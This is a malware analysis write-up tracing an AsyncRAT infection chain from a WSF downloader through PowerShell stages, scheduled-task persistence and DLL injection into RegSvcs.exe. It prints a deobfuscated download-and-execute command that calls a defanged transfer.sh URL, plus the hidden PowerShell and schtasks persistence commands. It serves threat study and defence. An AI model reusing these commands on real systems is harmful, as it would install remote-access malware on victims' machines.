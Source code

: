 ```yaml
---
description: AsyncRAT Infection Chain Analysis
---
```


# AsyncRAT

## Summary

This sample utilizes AsyncRAT to remotely monitor and control the infected host through an encrypted tunnel. AsyncRAT is an open source Remote Access Tool maintained by [NYAN-x-CAT](https://github.com/NYAN-x-CAT). Features include Keylogger, screen viewer and recorder, SFTP upload and download and password recovery.

The infection chain utilized by this sample starts with a WSF file hosted on a malicious URL.

* Once the WSF file is executed it will then connect to another URL to download a malicious PowerShell script.
* This PowerShell script is used by the sample to contact another URL and download a second PowerShell script.
* The second PowerShell script creates a staging directory, a scheduled task, and drops four files into the created directory. The four files created by this sample were coinmarketcap.ps1, imcq.ps1, 1.bat, and coinmarketcap.vbs.
* When the scheduled task is triggered it will run coinmarketcap.vbs.
* coinmarketcap.vbs will run 1.bat
* 1.bat will then run imcq.ps1 which will inject a DLL embedded within itself into Regsvcs.exe and contact the attackers C2.

<figure><img src=".gitbook/assets/AsyncRat Infection Chain.jpeg" alt=""><figcaption><p>Infection chain utilized by this sample</p></figcaption></figure>

***

## Technical Analysis

### Downloader - any.txt

This file is used by the first stage to pull another PowerShell script from a malicious URL and continue the infection chain. The sample uses a find and replace and alternating capital letters in order to confuse someone who may be reading the file.

This stage of the sample can be deobfuscated to:

{% code overflow="wrap" %}
```
Set mw_wscript.shell= CreateObject("wscript.shell") mw_wscript.shell.Run(powershell.exe -wind hidden -exec bypass -noni iex(new-object net.webclient.downloadstring hxxps://transfer[.]sh/CdqqbMkRr9/Ic295.jpg , CONSOLE_HIDE, CMD_WAIT Set ali = Nothing
```
{% endcode %}

When this is ran it will download the next stage from _hxxps://transfer\[.]sh/CdqqbMkRr9/Ic295.jpg_ and run it with it with PowerShell.

### Builder - Ic295.jpg

The purpose of this stage is to setup a staging area for the sample and to establish persistence on the victim's machine. When this stage is executed it will drop four files in the staging area and start running the first files of this stage. The first file that is executed in this stage is coinmarketcap.ps1. This file is responsible for creating the scheduled task on the host to setup persistence on the machine, if for some reason the final payload is terminated this scheduled task will re-run the installation process.&#x20;

The scheduled task is ran with the command line:

{% code overflow="wrap" %}
```
'schtasks.exe' '/create' '/sc' 'minute' '/mo' 1 '/tn' ''coinmarketcap '/tr' (('C:\Users\Public\coinmarketcap\coinmarketcap.vbs'))
```
{% endcode %}

Once the scheduled task is executed it will then run coinmarketcap.vbs, this stage's responsibility is to run the dropped batch file 1.bat with wscript.

<figure><img src=".gitbook/assets/Coinmarketcap.vbs.jpeg" alt=""><figcaption><p>contents of coinmarketcap.vbs</p></figcaption></figure>

After the batch file is started it will run the final stage of this stage of this stage.

{% code overflow="wrap" %}
```
CMD /C powershell.exe -NOP -WIND HIDDEN -eXEC BYPASS -NONI "C:\Users\Public\coinmarketcap\imcq.ps1"
```
{% endcode %}

This last PowerShell script is used to build and inject a DLL into the target process RegSvcs.exe.

### Injector - NewPE2.dll

```
MD5: 5616daa897af18e81dee80e75eef90cd
SHA256: 3a9096d615a3cd3163b814cc2803d68a627c681d19d3a896313c925b8a11bf4c
Original Name: NewPE2.dll
file-type: dynamic-link-library
Compile Date: 28 FEB 2067 11:16:29
Entropy: 5.789
signature: Microsoft Visual C# / Basic .NET
file-size: 21504 (bytes)
```


